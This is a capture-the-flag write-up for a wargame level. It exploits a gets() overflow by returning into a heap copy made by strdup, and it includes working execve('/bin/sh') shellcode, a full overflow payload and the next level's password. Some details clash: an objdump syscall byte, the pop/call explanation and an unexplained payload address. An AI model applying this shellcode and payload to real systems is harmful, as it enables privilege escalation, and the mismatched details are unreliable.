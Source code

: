 # Level2

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   %ebp
	   0x08048540 <+1>:	mov    %esp,%ebp
	   0x08048542 <+3>:	and    $0xfffffff0,%esp
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave  
	   0x0804854b <+12>:	ret    
	End of assembler dump.
	(gdb) disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   %ebp
	   0x080484d5 <+1>:	mov    %esp,%ebp
	   0x080484d7 <+3>:	sub    $0x68,%esp
	   0x080484da <+6>:	mov    0x8049860,%eax
	   0x080484df <+11>:	mov    %eax,(%esp)
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
	   0x080484ea <+22>:	mov    %eax,(%esp)
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
	   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
	   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
	   0x080484fb <+39>:	and    $0xb0000000,%eax
	   0x08048500 <+44>:	cmp    $0xb0000000,%eax
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    $0x8048620,%eax
	   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
	   0x0804850f <+59>:	mov    %edx,0x4(%esp)
	   0x08048513 <+63>:	mov    %eax,(%esp)
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	movl   $0x1,(%esp)
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
	   0x0804852a <+86>:	mov    %eax,(%esp)
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
	   0x08048535 <+97>:	mov    %eax,(%esp)
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave  
	   0x0804853e <+106>:	ret    
	End of assembler dump.

There is another vulnerable gets() call, but this time there is no useful function to exploit.

However, the stack is protected against buffer overflow, there is a check here that will exit if the memory has been overwritten :

	0x080484fb <+39>:	and    $0xb0000000,%eax
	0x08048500 <+44>:	cmp    $0xb0000000,%eax

This means we won't be able to overflow the stack. But there is also a call to strdup, which uses malloc, so the value will be stored in the heap.
We can place a breakpoint after the strdup call to get the pointer address, located in the EAX register (return value) :

	(gdb) run
	Starting program: /home/user/level2/level2 abc
	AAAAAAAAAAAA
	AAAAAAAAAAAA

	[...]

	Breakpoint 2, 0x0804853d in p ()
	(gdb) info registers
	eax            0x804a008        134520840
	ecx            0x0      0
	edx            0xbffff6cc       -1073744180
	ebx            0xb7fd0ff4       -1208152076
	esp            0xbffff6b0       0xbffff6b0
	ebp            0xbffff718       0xbffff718
	esi            0x0      0
	edi            0x0      0
	eip            0x804853d        0x804853d <p+105>
	eflags         0x200286 [ PF SF IF ID ]
	cs             0x73     115
	ss             0x7b     123
	ds             0x7b     123
	es             0x7b     123
	fs             0x0      0
	gs             0x33     51
	(gdb) x $eax
	0x804a008:      0x41414141

The address 0x804a008 indeed contains our input string.

We also need to find the buffer size

	$ msf-pattern_create -l100
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Now we just have to find the pattern stored in the registers :

	(gdb) info register
	[...]
	ebp            0x63413563       0x63413563 <-- cA5c in ASCII
	esi            0x0      0
	edi            0x0      0
	eip            0x37634136       0x37634136 <-- 7cA6 in ASCII
	[...]

EBP:

	$ msf-pattern_offset -q c5Ac
	[*] Exact match at offset 76

EIP:

	$ msf-pattern_offset -q 6Ac7
	[*] Exact match at offset 80

We can overflow the EIP register with the 81-84th characters of the buffer, by overwriting the address of the strdup return value. And this address will contain our own code that will run a shell, effectively executing it. Since the strdup address is located in the heap, the stack will be untouched.

Here our malicious asm code that will use the pop/call technique:

	global	_start
	section	.text
	
	_start:
		; set registers to NULL
		xor	eax, eax
		xor	ebx, ebx
		xor	ecx, ecx
		xor	edx, edx
	
		push	edx		; push NULL

		; We need to push /bin/sh on the stack using a x86 architecture. So we need to push 4 bytes at a time, and in little endian number
		; /bin/sh is only 7 bytes so we add another /  (we need 2x 4 bytes)
		push	0x68732f6e	; hs/n
		push	0x69622f2f	; ib// (1)
		
		mov	ebx, esp
		push	edx ; push NULL (2)
		
		push	ebx ; push string address (3)
		
		mov	ecx, esp ; (4)
		mov	al, 11 ; syscall number of execve
		int	0x80

This is how the stack will look like after executing our code :

	   +------------------------+
	   |        //bin/sh        |<-+	(1)
	   +------------------------+  |
	   |         edx = 0        |  |	(2)
	   +------------------------+  |
	+->|   ebx = addr str       |--+	(3)
	|  +------------------------+
	|  |            0           |<-- null pointer for the string termination
	|  +------------------------+
	+--| ecx = addr addr str    |		(4)
	   +------------------------+

[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf)

In order to get the address of a string, we first need to push it to the stack. The pop/call technique consists of the following: we start from an address X, jumping to a label at address Y, below which there is a call to the instruction following X. And below this call is our string. During the call, the address of the next instruction will be pushed onto the stack, as with all calls. The next address is precisely the address of our string. All we have to do is pop the address into a register, in this case ECX

We can then compile our naughty code and dissassemble it :

	$ objdump -d shellcode

	shellcode:     file format elf32-i386


	Disassembly of section .text:

	08049000 <_start>:
	8049000:	31 c0                	xor    %eax,%eax
	8049002:	31 db                	xor    %ebx,%ebx
	8049004:	31 c9                	xor    %ecx,%ecx
	8049006:	31 d2                	xor    %edx,%edx
	8049008:	52                   	push   %edx
	8049009:	68 6e 2f 73 68       	push   $0x68732f6e
	804900e:	68 2f 2f 62 69       	push   $0x69622f2f
	8049013:	89 e3                	mov    %esp,%ebx
	8049015:	52                   	push   %edx
	8049016:	53                   	push   %ebx
	8049017:	89 e1                	mov    %esp,%ecx
	8049019:	b0 dd                	mov    $0xdd,%al
	804901b:	cd 80                	int    $0x80

Dissassembling it allows us to get the opcodes (the machine code of the asm instructions), separating them with \x.
To do so, we can use a small script. I am a lazy dude though, so i will instead write them by hand. Here is our shellcode :

	\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80

Now, we just need to pass this shellcode to the binary. At the same time, we also need to overwrite EIP with the malloc'd string address. To do so, our string needs to be 80 characters long + the last 4 characters to overflow EIP. Since our shellcode is (fortunately) shorter than 80 characters, we can add some padding until we reach 80 characters. I would recommend using 'Y' because it's such an underrated letter in my opinion, but any character will do the job.

Here is our final payload :

	$ echo $((($(cat shellcode.txt | wc -c) - 1)/4))
	29 <-- shellcode len, so we need a padding of 51
	$ python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"+"Y"*51+"\x44\x84\x04\x08"+"\x08\xa0\x04\x08"' > payload
	$ cat payload - | ./level2 
	[...]
	id
	uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
	cd ../level3
	cat .pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
